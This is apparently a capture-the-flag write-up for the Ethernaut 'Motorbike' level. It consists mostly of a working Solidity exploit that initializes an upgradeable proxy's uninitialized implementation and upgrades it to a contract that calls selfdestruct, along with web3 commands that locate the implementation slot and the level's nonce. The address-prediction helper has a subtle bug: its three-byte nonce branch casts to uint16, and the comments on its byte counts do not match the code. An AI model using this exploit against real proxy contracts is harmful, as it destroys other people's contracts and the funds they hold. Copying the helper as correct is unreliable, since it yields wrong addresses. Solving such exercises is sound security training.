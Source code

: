 
## Fetching Implementation Address (useful prior to `EIP-6780`)

```js
await web3.eth.getStorageAt(
    contract.address,
    `0x${web3.utils.BN(web3.utils.sha3("eip1967.proxy.implementation")).sub(web3.utils.BN(1)).toString(16)}`
)
// '0x000000000000000000000000c147b4ff63cd11529051981c78aca11d1a41cb2c'
```

## Dealing With [EIP-6780](https://eips.ethereum.org/EIPS/eip-6780)

We need to call the `selfdestruct` during the contract creation transaction,
<br>
otherwise the opcode would have no affect.

```js
ethernaut = '0xa3e7317E591D5A0F1c605be1b3aC4D2ae56104d6'
level = '0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6'
nonce = await web3.eth.getTransactionCount(level) // 3461
```

Now we would use these params to call `BypassEIP6780`.

##

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IEthernaut {
    function createLevelInstance(address _level) external;
    function submitLevelInstance(address _instance) external;
}

interface IEngine {
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external;
}

contract BypassEIP6780 {
    IEthernaut public ethernaut;
    address public motorbike;
    address public engine;

    constructor(address _ethernaut, address _level, uint256 _levelNonce) {
        ethernaut = IEthernaut(_ethernaut);
        engine = computeContractAddress(_level, _levelNonce);
        motorbike = computeContractAddress(_level, _levelNonce + 1);
        ethernaut.createLevelInstance(_level);
        new MotorbikeSolution().destructEngine(engine);
    }

    function computeContractAddress(address _creator, uint256 _nonce) private pure returns (address) {
        if (_nonce == 0) {
            // RLP encoding for the address and nonce 0 case
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd6),
                bytes1(0x94),
                _creator,
                bytes1(0x80)
            )))));
        }
        if (_nonce <= 0x7f) {
            // Nonce is 1 byte
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd6),
                bytes1(0x94),
                _creator,
                uint8(_nonce)
            )))));
        }
        if (_nonce <= 0xff) {
            // Nonce is 2 bytes
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd7),
                bytes1(0x94),
                _creator,
                uint8(0x81),
                uint8(_nonce)
            )))));
        }
        if (_nonce <= 0xffff) {
            // Nonce is 3 bytes
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd8),
                bytes1(0x94),
                _creator,
                bytes1(0x82),
                uint16(_nonce)
            )))));
        }
        if (_nonce <= 0xffffff) {
            // Nonce is 3 bytes
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd9),
                bytes1(0x94),
                _creator,
                bytes1(0x83),
                uint16(_nonce)
            )))));
        }
        revert("Nonce too high");
    }

    function submitLevel() external {
        ethernaut.submitLevelInstance(motorbike);
    }
}

contract MotorbikeSolution {
    function destructEngine(address _engine) external {
        IEngine e = IEngine(_engine);
        e.initialize();
        e.upgradeToAndCall(address(this), abi.encodeWithSelector(this.destruct.selector));
    }

    function destruct() external {
        selfdestruct(payable(tx.origin));
    }
}
```

## Submitting Level

Submit the level via `BypassEIP6780.submitLevel()`.

#### NOTE:
The `level instance` will belong to `BypassEIP6780` contract and not to the EOA player.
<br>
Therefore the solution will not be recorded under the player's EOA :(
<br>
Creating a `"middleman"` contract that will do a delegate call to create the `level instance` will not work since it would update the `"middleman"` contract's storage rather than the storage of the `ethernaut` contract (as we saw earlier).
